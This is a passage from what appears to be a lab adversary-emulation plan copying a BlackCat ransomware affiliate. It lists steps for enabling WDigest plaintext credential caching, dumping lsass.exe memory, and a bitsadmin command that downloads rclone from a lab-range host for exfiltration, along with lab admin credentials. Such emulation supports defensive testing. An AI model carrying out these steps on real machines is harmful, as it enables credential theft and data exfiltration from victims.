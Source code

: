 The BlackCat affiliate then dumps credentials via Task Manager and exfiltrates
the dump file using `rclone`.

### ☣️ Procedures

* Within the RDP session, search for Registry Editor and right-click to Run As
Administrator, providing the workstation local administrator account
credentials when prompted

  | Username | Password |
  | -------- | -------- |
  | .\windesk | windesk |

* Using Registry Editor, enable WDigest by browsing to 
`HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest`, right-click
inside the window, New > DWORD (32-bit) Value, and type `UseLogonCredential`
for the registry key value name. Ensure the type says `REG_DWORD`. Then right-
click the registry key value > Modify... then change the "Value data:" field to
`1`.

* Within the RDP session, search for Task Manager and right-click to Run As
Administrator (if not already open), providing the workstation local
administrator account credentials when prompted

  | Username | Password |
  | -------- | -------- |
  | .\windesk | windesk |

* Using Task Manager, go to `Details`, find `lsass.exe` then right-click and click
"Create Dump File". In the pop up window, take note of the file location where the
DMP file has been created (`C:\Users\windesk\AppData\Local\Temp\lsass.DMP`)

* Within the RDP session to the bastion host `kimeramon (10.20.20.11)`, open
Edge and browse to the following link to initiate the download of rclone:
    ```
    https://github.com/rclone/rclone/releases/download/v1.64.0/rclone-v1.64.0-windows-amd64.zip
    ```
    * :heavy_exclamation_mark: If OVR testing, you will not have internet access to browse to GitHub. Instead:
    * Open a non-elevated PowerShell and execute:
        ```
        bitsadmin /transfer ovr2 /download http://the-inator.com/digirevenge/rclone-v1.64.0-windows-amd64.zip C:\Users\zorimoto\Downloads\rclone-v1.64.0-windows-amd64.zip
        ```

* Go to the Downloads folder, right-click the rclone zip, click
"Extract all..." from the menu, and in the window that opens, click the Extract
button

* Search for `cmd.exe` and right-click to Run As Administrator, providing the
workstation local administrator account credentials when prompted

  | Username | Password |
  | -------- | -------- |
  | .\windesk | windesk |
